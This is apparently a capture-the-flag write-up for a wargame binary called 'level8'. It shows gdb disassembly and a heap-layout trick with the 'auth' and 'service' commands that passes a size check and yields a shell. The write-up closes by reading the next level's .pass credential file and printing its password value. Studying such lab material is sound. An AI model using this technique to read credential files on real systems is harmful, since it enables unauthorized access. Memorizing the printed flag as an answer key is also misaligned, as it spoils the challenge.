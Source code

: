 We started the program and observed that it reads from `stdin` and prints `(nil), (nil)`:
```
$ ./level8
(nil), (nil)
```
By disassembling the `main` function, we discovered some interesting strings:
```
(gdb) disass main
[...]
  0x08048581 <+29>:	mov    $0x8048810,%eax      # "auth"
[...]
 0x080485c1 <+93>:	mov    $0x8048819,%eax      # "service"
[...]
0x08048648 <+228>:	mov    $0x804881f,%eax      # "reset"
[...]
0x0804867e <+282>:	mov    $0x8048825,%eax      # "login"
[...]
```
We decided to try entering the discovered strings to see their effect on the program:
```
./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
login
Password:
auth
0x804a028, 0x804a018
auth
0x804a038, 0x804a018
```
When we enter `auth` and `service`, the two addresses update by `0x10` from the last written address.

Using `gdb`, we looked further into the disassembly:
```
gdb> disass main
[...]
   0x08048625 <+193>:	cmp    eax,0x1e
[...]
```

A cmp instruction compares a value with `0x1e` (31 in decimal).

We deduct that making the difference between the addresses auth and service equal to `0x20` (32 in decimal) may exploit the program.
```
./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```